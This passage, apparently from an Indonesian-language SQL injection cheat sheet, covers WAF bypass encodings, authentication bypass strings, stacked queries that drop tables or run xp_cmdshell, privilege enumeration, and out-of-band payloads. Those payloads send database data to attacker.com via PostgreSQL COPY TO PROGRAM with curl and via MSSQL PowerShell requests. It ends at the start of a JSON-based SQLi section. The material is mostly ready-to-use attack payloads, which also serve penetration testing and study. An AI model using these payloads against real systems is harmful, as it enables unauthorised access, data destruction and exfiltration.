 
## 4. Teknik Tambahan & Bypass

### a. Bypass Filter & WAF

- **Encoding:**
  - URL Encoding: `%27` untuk `'`
  - Double URL Encoding: `%2527`
  - Hex Encoding: `0x61646d696e`
  - Unicode Encoding: `\u0027`
- **Pengganti Spasi:**
  - `/**/`
  - `/*!*/`
  - Tab (`%09`), newline (`%0A`)

### b. Authentication Bypass Payloads

- `' OR '1'='1`
- `' OR 1=1--`
- `' OR 'a'='a'--`
- `' OR 1=1#`

### c. Second-Order SQL Injection

- Data aman saat input bisa berbahaya saat digunakan di query lain, contoh: token reset password yang disimpan di DB dan dipanggil kembali tanpa sanitasi.

### d. Stacked Queries (Multiple Statements)

- MySQL (jika `allow_multi_statements` aktif):  
  `1; DROP TABLE users --`
- MSSQL:  
  `1; EXEC xp_cmdshell('whoami') --`

### e. Advanced Enumeration

- OS dari server: `SELECT @@version_compile_os` _(MySQL)_
- Privilege user: `SELECT super_priv FROM mysql.user WHERE user='root'`

### f. Out-of-Band Lanjutan

- PostgreSQL:  
  `COPY (SELECT '') TO PROGRAM 'curl http://attacker.com/?data=' || version()`
- MSSQL:  
  `; EXEC xp_cmdshell 'powershell Invoke-WebRequest http://attacker.com/?data=...';`

---

## 5. SQL Injection pada Format Khusus

### a. JSON-based SQLi
